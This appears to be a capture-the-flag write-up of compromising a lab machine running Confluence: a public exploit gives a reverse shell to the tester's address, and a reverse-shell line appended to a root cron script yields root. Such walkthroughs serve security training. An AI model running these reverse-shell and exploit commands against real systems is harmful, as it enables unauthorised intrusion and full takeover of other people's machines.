 # Flu

so i start off with a nmap scan to discover open ports:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The first web page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see the version number of the confluence software so we can look for public exploits:

{% embed url="https://github.com/jbaines-r7/through_the_wire" %}

And we catch a shell just like that:

```
python3 through_the_wire.py --rhost 192.168.59.41 --rport 8090 --lhost 192.168.49.59 --lport 1234 --protocol http:// --reverse-shell
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i run linpeas and see that there is something going on in the dir /opt/atlassian/confluance/logs/

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i go and see all those files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nothing interesting unfortunatly i went through all those logs and did not grep on any interesting stuff so i back out of this dir one by one and end up in /opt:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the log-backup.sh file seems interesting:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i see this script creates backups and stores them in a root folder so i try to write a reverse shell into it:

```
echo 'sh -i >& /dev/tcp/192.168.49.59/9876 0>&1' >> log-backup.sh
```

and very wierdly i get a shell as root on my listener?

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there must be a cron running on this file and i was very lucky so i need to be sure by running pspy to look at root to snoop on processes without need for root permissions. It allows to see commands run by other users, cron jobs, etc

so i install pspy in /tmp of my shell with the following:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

and run it to find UID=0:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A script named **`/opt/log-backup.sh`** was run, likely as part of a scheduled task or system process.
* The initial execution (`/bin/sh -c ...`) suggests it may have been triggered by a **cron job**, systemd service, or another script.
* The script itself was executed using **`/bin/bash`**, meaning it contains commands that require Bash rather than the default `sh`.

